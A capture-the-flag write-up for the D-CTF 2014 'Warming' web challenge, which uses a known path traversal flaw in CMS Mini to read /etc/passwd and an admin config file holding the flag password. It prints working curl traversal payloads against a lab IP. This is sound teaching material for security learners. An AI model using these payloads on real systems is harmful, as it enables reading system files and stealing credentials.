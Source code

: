 # D-CTF 2014: Web 200 – Warming

**Category:** Web
**Points:** 200
**Description:**

> A rose like any other name has spikes 10.13.37.12.

## Write-up

`http://10.13.37.12/` displays an image, located at `/cms/roses.jpg`, that says:

> “Roses may say “I love you,”

Note the missing `”` at the end – it seems this quotation is incomplete.

Based on the image URL, let’s check out the `/cms/` path. It redirects to `/cms/admin/login.php` which displays a login form. In the HTML source we find:

```html
<title>CMSmini - administration page</title>
```

A Google search for known [CMS Mini](http://sourceforge.net/projects/cmsmini/) vulnerabilities reveals [multiple vulnerabilities in v0.2.2](http://www.exploit-db.com/exploits/28128/), among which file inclusion:

```
http://
[target/IP]/cmsmini/admin/edit.php?path=&name=../../../../../etc/passwd
```

Let’s see if the given site is vulnerable (i.e. if it’s running v0.2.2 or older):

```bash
$ curl 'http://10.13.37.12/cms/admin/edit.php?path=&name=../../../../../../etc/passwd'
```

And indeed, this returns the contents of `/etc/passwd` as part of the response.

After studying the CMS Mini source code, we learn that its configuration file is stored in `cms/admin/config.php`. Let’s find out what its contents are for this server:

```bash
$ curl -s 'http://10.13.37.12/cms/admin/edit.php?path=&name=../../../../var/www/cms/admin/config.php'
…
$admin_login = 'admin';
$admin_pass = 'RosesmaysayIloveyoubutthecactussaysFuckoff';
…
```

The flag is `RosesmaysayIloveyoubutthecactussaysFuckoff`.

## Other write-ups and resources

* none yet
